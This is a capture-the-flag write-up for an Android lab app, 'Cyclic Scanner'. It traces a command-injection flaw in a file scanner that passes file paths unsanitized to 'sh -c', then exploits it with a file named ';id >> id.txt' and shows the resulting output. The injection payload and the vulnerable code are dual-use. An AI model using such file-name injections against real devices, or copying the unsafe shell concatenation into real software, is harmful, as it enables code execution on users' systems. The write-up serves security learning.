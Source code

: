 ```yaml
---
date: '2025-03-30T12:42:08+08:00'
title: 'MHL Cyclic Scanner'
tags:
    - MHL
    - Android CTF
---
```


## Challenge Description

> Welcome to the Cyclic Scanner Challenge! This lab is designed to mimic real-world scenarios where vulnerabilities within Android services lead to exploitable situations. Participants will have the opportunity to exploit these vulnerabilities to achieve remote code execution (RCE) on an Android device.
>
> [cyclicscanner.apk](static/cyclicscanner.apk)

## Solution

I started by performing static analysis to get an understanding on what the application is doing.

### Static Analysis 

I started out by looking into the `AndroidManifest.xml` after decompiling using `jadx-gui`. 

```xml
<activity
    android:name="com.mobilehackinglab.cyclicscanner.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
<service
    android:name="com.mobilehackinglab.cyclicscanner.scanner.ScanService"
    android:exported="false"/>
```

I noticed that there's a service named `ScanService` and it is not exported. I started out by reading the `MainActivity` code.

```java
public static final void setupSwitch$lambda$3(MainActivity this$0, CompoundButton compoundButton, boolean isChecked) {
    Intrinsics.checkNotNullParameter(this$0, "this$0");
    if (isChecked) {
        Toast.makeText(this$0, "Scan service started, your device will be scanned regularly.", 0).show();
        this$0.startForegroundService(new Intent(this$0, (Class<?>) ScanService.class));
        return;
    }
    Toast.makeText(this$0, "Scan service cannot be stopped, this is for your own safety!", 0).show();
    ActivityMainBinding activityMainBinding = this$0.binding;
    if (activityMainBinding == null) {
        Intrinsics.throwUninitializedPropertyAccessException("binding");
        activityMainBinding = null;
    }
    activityMainBinding.serviceSwitch.setChecked(true);
}
```

According to this function in `MainActivity`, it will start `ScanService` service after some checks.

```java
@Override // android.os.Handler
public void handleMessage(Message msg) {
    Intrinsics.checkNotNullParameter(msg, "msg");
    try {
        System.out.println((Object) "starting file scan...");
        File externalStorageDirectory = Environment.getExternalStorageDirectory();
        Intrinsics.checkNotNullExpressionValue(externalStorageDirectory, "getExternalStorageDirectory(...)");
        Sequence $this$forEach$iv = FilesKt.walk$default(externalStorageDirectory, null, 1, null);
        for (Object element$iv : $this$forEach$iv) {
            File file = (File) element$iv;
            if (file.canRead() && file.isFile()) {
                System.out.print((Object) (file.getAbsolutePath() + "..."));
                boolean safe = ScanEngine.INSTANCE.scanFile(file);
                System.out.println((Object) (safe ? "SAFE" : "INFECTED"));
            }
        }
        System.out.println((Object) "finished file scan!");
    } catch (InterruptedException e) {
        Thread.currentThread().interrupt();
    }
    Message $this$handleMessage_u24lambda_u241 = obtainMessage();
    $this$handleMessage_u24lambda_u241.arg1 = msg.arg1;
    sendMessageDelayed($this$handleMessage_u24lambda_u241, ScanService.SCAN_INTERVAL);
}
```

In the `ScanService`, it will trigger this `handleMessage` function after the `onStartCommand` function send message succesfully. In the `handleMessage`, it will get externals storage directory using `Environment.getExternalStorageDirectory()` and it will go through a for loop to get every files. Each of the files will go through this `ScanEngine.INSTANCE.scanFile`. 

```java
public final boolean scanFile(File file) {
    Intrinsics.checkNotNullParameter(file, "file");
    try {
        String command = "toybox sha1sum " + file.getAbsolutePath();
        Process process = new ProcessBuilder(new String[0]).command("sh", "-c", command).directory(Environment.getExternalStorageDirectory()).redirectErrorStream(true).start();
        InputStream inputStream = process.getInputStream();
        Intrinsics.checkNotNullExpressionValue(inputStream, "getInputStream(...)");
        Reader inputStreamReader = new InputStreamReader(inputStream, Charsets.UTF_8);
        BufferedReader bufferedReader = inputStreamReader instanceof BufferedReader ? (BufferedReader) inputStreamReader : new BufferedReader(inputStreamReader, 8192);
        try {
            BufferedReader reader = bufferedReader;
            String output = reader.readLine();
            Intrinsics.checkNotNull(output);
            Object fileHash = StringsKt.substringBefore$default(output, "  ", (String) null, 2, (Object) null);
            Unit unit = Unit.INSTANCE;
            Closeable.closeFinally(bufferedReader, null);
            return !ScanEngine.KNOWN_MALWARE_SAMPLES.containsValue(fileHash);
        } finally {
        }
    } catch (Exception e) {
        e.printStackTrace();
        return false;
    }
}
```

In the `ScanEngine.INSTANCE.scanFile` function, it is running bash command by using `"toybox sha1sum" + file.getAbsolutePath()` and it will pass to `command("sh", "-c", command)`. Looking into the code, it seems like it do not have any input validation or sanitization which mean I could perform RCE if I can just add a file with specific name in the external storage directory. 

### Dynamic Analysis 

After having a basic understanding from static analysis, I tried to play around with it and see how it works. 

![alt text](img/index.png#center)

Here's the `MainActivity` where it has a button to enable the scanner. After clicking it, it only have a simple toast.

![alt text](img/index-1.png#center)

After enabling it, look into the logcat.

```poewershell
PS C:\Users\kskin> adb logcat System.out:I --pid=9717
...
03-30 14:13:26.867  9717 10171 I System.out: /storage/emulated/0/Download/cacert.der...SAFE
03-30 14:13:26.898  9717 10171 I System.out: /storage/emulated/0/Music/.thumbnails/.database_uuid...SAFE
...
```

Basically, it will go through a bunch of files from several directories such as `Download` and `Music`. I then tried to write a file with malicious name to perform RCE.

```bash
1|beryllium:/sdcard/Download # echo '' > ';id >> id.txt'
1|beryllium:/sdcard/Download # ls -la
total 24
-rw-rw---- 1 root everybody    1 2025-03-30 14:18 ;id\ >>\ id.txt
```

After that, just wait for the result from logcat and see if it works. 

```powershell
03-30 14:21:22.927  9717 10171 I System.out: /storage/emulated/0/Download/;id >> id.txt...SAFE
03-30 14:21:23.040  9717 10171 I System.out: /storage/emulated/0/id.txt...SAFE
```

In the logcat, It managed to perform RCE and created another file named `id.txt`. 

```bash
beryllium:/sdcard # ls -la id.txt
-rw-rw---- 1 root everybody 1176 2025-03-30 14:22 id.txt
beryllium:/sdcard # cat id.txt
uid=10228(u0_a228) gid=10228(u0_a228) groups=10228(u0_a228),1077(external_storage),3003(inet),9997(everybody),20228(u0_a228_cache),50228(all_a228) context=u:r:untrusted_app:s0:c228,c256,c512,c768
uid=10228(u0_a228) gid=10228(u0_a228) groups=10228(u0_a228),1077(external_storage),3003(inet),9997(everybody),20228(u0_a228_cache),50228(all_a228) context=u:r:untrusted_app:s0:c228,c256,c512,c768
uid=10228(u0_a228) gid=10228(u0_a228) groups=10228(u0_a228),1077(external_storage),3003(inet),9997(everybody),20228(u0_a228_cache),50228(all_a228) context=u:r:untrusted_app:s0:c228,c256,c512,c768
uid=10228(u0_a228) gid=10228(u0_a228) groups=10228(u0_a228),1077(external_storage),3003(inet),9997(everybody),20228(u0_a228_cache),50228(all_a228) context=u:r:untrusted_app:s0:c228,c256,c512,c768
uid=10228(u0_a228) gid=10228(u0_a228) groups=10228(u0_a228),1077(external_storage),3003(inet),9997(everybody),20228(u0_a228_cache),50228(all_a228) context=u:r:untrusted_app:s0:c228,c256,c512,c768
uid=10228(u0_a228) gid=10228(u0_a228) groups=10228(u0_a228),1077(external_storage),3003(inet),9997(everybody),20228(u0_a228_cache),50228(all_a228) context=u:r:untrusted_app:s0:c228,c256,c512,c768
```

According to the result, it can easily know that the code is vulnerable to RCE. 

## Things I learned from this challenge

- `adb logcat` to read the specific log
- RCE in android 
- code reading